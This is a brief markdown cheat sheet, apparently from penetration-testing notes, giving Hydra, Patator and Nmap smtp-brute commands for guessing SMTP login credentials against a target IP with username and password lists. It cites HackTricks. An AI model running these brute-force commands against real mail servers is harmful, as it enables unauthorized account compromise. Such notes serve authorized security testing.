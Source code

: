 # SMTP

## 01 - Hydra

```
$ hydra -V -l <username> -P passwords.lst [-s <PORT>] <IP> smtp
```

## 02 - Patator

```
$ patator smtp_login
```

## 03 - Nmap

```
$ nmap -p 25 --script smtp-brute --script-args smtp-brute.auth=<LOGIN | PLAIN | CRAM-MD5 | DIGEST-MD5 | NTLM>

$ nmap -p 25 --script smtp-brute --script-args "smtp-brute.auth=LOGIN,userdb=users.lst,passdb=passwords.lst" <IP>
```

---
## References

- [Hacktricks: Brute Force SMTP](https://book.hacktricks.xyz/brute-force#smtp)